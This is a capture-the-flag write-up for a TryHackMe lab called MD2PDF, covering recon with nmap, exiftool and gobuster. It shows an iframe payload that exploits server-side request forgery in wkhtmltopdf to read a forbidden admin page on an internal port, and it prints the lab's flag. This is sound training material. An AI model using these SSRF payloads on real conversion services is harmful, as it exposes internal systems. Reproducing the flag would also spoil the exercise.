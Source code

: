 ### MD2PDF TryHackMe

### Difficulty = Easy

###  Description: Hello Hacker! TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF. This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

Nmap Scan:

```
└─$ nmap -sCV 10.10.174.101 -p22,80,5000 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 01:23 WAT
Nmap scan report for 10.10.174.101
Host is up.

PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
80/tcp   filtered http
5000/tcp filtered upnp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.75 seconds

```

Checking the web server on port 80 shows that it converts markdown file to pdf
![image](https://user-images.githubusercontent.com/113513376/218225529-7bc01174-6686-4a9b-a582-8469db003229.png)

So if i include things markdown uses it will be converted to pdf
![image](https://user-images.githubusercontent.com/113513376/218225870-99385672-ac3f-4d49-84f3-165b8ef1a73f.png)

Now i'll download the generated pdf file to check out the metadata

```
┌──(mark㉿haxor)-[~/Desktop]
└─$ file document.pdf                       
document.pdf: PDF document, version 1.4, 0 pages
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop]
└─$ exiftool document.pdf
ExifTool Version Number         : 12.44
File Name                       : document.pdf
Directory                       : .
File Size                       : 13 kB
File Modification Date/Time     : 2023:02:11 01:25:32+01:00
File Access Date/Time           : 2023:02:11 01:25:33+01:00
File Inode Change Date/Time     : 2023:02:11 01:25:32+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.5
Producer                        : Qt 4.8.7
Create Date                     : 2023:02:11 00:19:54Z
Page Count                      : 1
Page Mode                       : UseOutlines
```

Ok so we see the creator name `wkhtmltopdf 0.12.5` I'll search google to know if there's publicly known exploit it
![image](https://user-images.githubusercontent.com/113513376/218226141-d361cfa9-bc45-442a-92c7-d03f316d72d1.png)
![image](https://user-images.githubusercontent.com/113513376/218226171-ea30edb1-b3d9-42a5-aea6-5ea24d8c4e67.png)

Reading about the [exploit](https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently) shows that we can use iframe tag and perform Server Side Request Forgery

```
Payload: <iframe src="http://localhost/" width="1000" height="2000">`
```

But using that payload is not what we want cause we need the flag not the web page of the web server running on port 80

Now i'll run gobuster to see if there's any interesting thing

```
└─$ gobuster dir -u http://10.10.174.101/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.174.101/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/02/11 01:05:06 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
Progress: 4612 / 4615 (100.00%)
===============================================================
2023/02/11 01:07:12 Finished
===============================================================
```

There's an admin directory which when accessed gives 403
![image](https://user-images.githubusercontent.com/113513376/218227204-d6591ee0-3b2d-4688-abe3-5e21432bd0dd.png)

Cool so now what we can do is to leverage the SSRF vulnerability and view the admin directory on port 5000
![image](https://user-images.githubusercontent.com/113513376/218227301-9bc2b6b5-1615-4153-a05b-d7ec3e220c81.png)

```
Payload: <iframe src="http://localhost:5000/admin" width="1000" height="2000">`
```

On submitting the payload we get the flag xD
![image](https://user-images.githubusercontent.com/113513376/218227325-9ea44126-4fc5-493b-88e7-914836fb58f9.png)

```
Flag: flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

And we're done 

<br> <br>
[Back To Home](../../index.md)

